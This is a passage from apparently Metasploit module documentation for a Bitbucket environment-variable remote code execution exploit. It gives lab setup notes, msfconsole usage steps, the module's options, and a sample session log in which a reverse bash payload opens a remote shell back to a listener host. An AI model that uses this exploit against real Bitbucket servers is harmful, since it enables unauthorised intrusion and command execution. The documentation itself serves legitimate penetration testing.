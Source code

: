 18. Finally, set up an administrator account

*Note*: If an error occurs on the last step, just open a browser and navigate to the setup
page at 127.0.0.1:7990. If installing an 8.* version of Bitbucket, you will need to create
a `bitbucket.properties` file at `/var/atlassian/application-data/bitbucket/shared`. Once created,
add the line `mesh.enabled=false`, save the file, and restart Bitbucket.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/bitbucket_env_var_rce`
4. Do: `set USERNAME <username>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <target_ip>`
7. Do: `set LHOST <listen_ip>`
8. Do: `run`
9. You should get a shell.

## Options

### USERNAME

Username to authenticate with and has at least admin privileges

### PASSWORD

Password to authenticate with

## Scenarios

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, CMD Target

```
msf > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(multi/http/bitbucket_env_var_rce) > set username test
username => test
msf exploit(multi/http/bitbucket_env_var_rce) > set password password
password => password
msf exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'fjNMKiB'
[+] Commits added: 9e03047ab0802438c2058e49ec757a7be8d222eb, f7683fcc92840ff94e609c8b0a99e165edb5aa7d
[*] Sending payload
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.149:41118) at 2023-03-13 14:04:00 -0500
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

uname -a
```